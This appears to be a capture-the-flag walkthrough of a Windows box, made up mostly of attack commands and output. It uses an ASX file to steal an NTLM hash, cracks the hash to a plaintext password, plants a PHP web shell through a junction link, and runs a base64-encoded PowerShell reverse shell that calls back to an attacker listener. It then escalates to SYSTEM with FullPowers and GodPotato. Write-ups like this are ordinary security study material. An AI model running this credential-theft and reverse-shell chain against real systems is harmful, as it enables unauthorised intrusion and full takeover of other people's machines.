




| Port | Service | Informations |
| ---- | ------- | ------------ |
| 22   | SSH     |              |
| 80   | HTTP    |              |
| 3389 | RDP     |              |
# Upload ASX file for NTLM theft
```bash
ntlm_theft --verbose --generate asx --server '10.10.14.38' --filename video
> video.asx
```
-> Upload this file on the website form
```bash
# Connexion from enox
enox::MEDIA:1122334455667788:DF843E4B0586DC1698E5B29AFA0798BC:010100000000000080DFAE943689DC011BFBA165A9DCB2A80000000002000800360058004600440001001E00570049004E002D0038005A0047004D004800300047004C0049004800320004003400570049004E002D0038005A0047004D004800300047004C004900480032002E0036005800460044002E004C004F00430041004C000300140036005800460044002E004C004F00430041004C000500140036005800460044002E004C004F00430041004C000700080080DFAE943689DC0106000400020000000800300030000000000000000000000000300000C0E089133365902021B73A1437CD0962F5EA737337C652C32823BD441005AFB10A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0033003800000000000000000
# lets crack it
hashcat -m 5600 enox.hash rockyou.txt
1234virus@
```
-> We can connect to the box as enox with: `ssh enox@10.126.234.67 -> and password 1234virus@`
# Shell as Local Service
We have powershell script in Document folder of enox:
```powershell
function Get-Values {
    param (
        [Parameter(Mandatory = $true)]
        [ValidateScript({Test-Path -Path $_ -PathType Leaf})]
        [string]$FilePath
    )

    # Read the first line of the file
    $firstLine = Get-Content $FilePath -TotalCount 1

    # Extract the values from the first line
    if ($firstLine -match 'Filename: (.+), Random Variable: (.+)') {
        $filename = $Matches[1]
        $randomVariable = $Matches[2]

        # Create a custom object with the extracted values
        $repoValues = [PSCustomObject]@{
            FileName = $filename
            RandomVariable = $randomVariable
        }

        # Return the custom object
        return $repoValues
    }
    else {
        # Return $null if the pattern is not found
        return $null
    }
}

function UpdateTodo {
    param (
        [Parameter(Mandatory = $true)]
        [ValidateScript({Test-Path -Path $_ -PathType Leaf})]
        [string]$FilePath
    )

    # Create a .NET stream reader and writer
    $reader = [System.IO.StreamReader]::new($FilePath)
    $writer = [System.IO.StreamWriter]::new($FilePath + ".tmp")

    # Read the first line and ignore it
    $reader.ReadLine() | Out-Null

    # Copy the remaining lines to a temporary file
    while (-not $reader.EndOfStream) {
        $line = $reader.ReadLine()
        $writer.WriteLine($line)
    }

    # Close the reader and writer
    $reader.Close()
    $writer.Close()

    # Replace the original file with the temporary file
    Remove-Item $FilePath
    Rename-Item -Path ($FilePath + ".tmp") -NewName $FilePath
}

$todofile="C:\\Windows\\Tasks\\Uploads\\todo.txt"
$mediaPlayerPath = "C:\Program Files (x86)\Windows Media Player\wmplayer.exe"


while($True){

    if ((Get-Content -Path $todofile) -eq $null) {
        Write-Host "Todo is empty."
        Sleep 60 # Sleep for 60 seconds before rechecking
    }
    else {
        $result = Get-Values -FilePath $todofile
        $filename = $result.FileName
        $randomVariable = $result.RandomVariable
        Write-Host "FileName: $filename"
        Write-Host "Random Variable: $randomVariable"

        # Opening the File in Windows Media Player
        Start-Process -FilePath $mediaPlayerPath -ArgumentList "C:\Windows\Tasks\uploads\$randomVariable\$filename"

        # Wait for 15 seconds
        Start-Sleep -Seconds 15

        $mediaPlayerProcess = Get-Process -Name "wmplayer" -ErrorAction SilentlyContinue
        if ($mediaPlayerProcess -ne $null) {
            Write-Host "Killing Windows Media Player process."
            Stop-Process -Name "wmplayer" -Force
        }

        # Task Done
        UpdateTodo -FilePath $todofile # Updating C:\Windows\Tasks\Uploads\todo.txt
        Sleep 15
    }
}
```
-> To get a reverse shell as the web service user, we have to create a symlink between the upload subfolder of our webshell and the xampp web app:
```powershell
cmd /c mklink \J C:\Windows\Tasks\Uploads\1f65acaec0ad23a8086622529096e58f C:\xampp\htdocs
-> Now we have to reupload our php reverse shell and call it in the web directory
```

Now lets have reverse shell as local priv
Web shell to reverse shell using powershell b64 encoded command:
```bash
rlwrap nc -lvnp 9001
# powershell RShell
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMwA4ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

# Shell as administrator
## SeImpersonatePriv
Current privs:
```powershell
Privilege Name                Description                         State
============================= =================================== ========
SeTcbPrivilege                Act as part of the operating system Disabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeCreateGlobalPrivilege       Create global objects               Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Disabled
SeTimeZonePrivilege           Change the time zone                Disabled
```
-> To restore our current user privs we can use technic using scheduling task to connect back to our machine with default priv set for Local service account
#tools [FullPowers](https://github.com/itm4n/FullPowers)
```bash
# Download the pre-compiled binary
# export the box
scp FullPowers.exe enox@10.129.234.67:/programdata/
-> transfer OK!
# Use to get reverse shell with all privs activated
PS C:\programdata> .\FullPowers.exe -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMwA4ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==' -z
# -z at the end for non interactive
```

-> Now, we are going to use GodPotato to get NT AUTH
## GodPotato to NT System
Download the latest version from Git repo: [GodPotato Release](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20)
```bash
scp GodPotato-NET4.exe enox@10.129.234.67:/programdata/
```

We are SYSTEM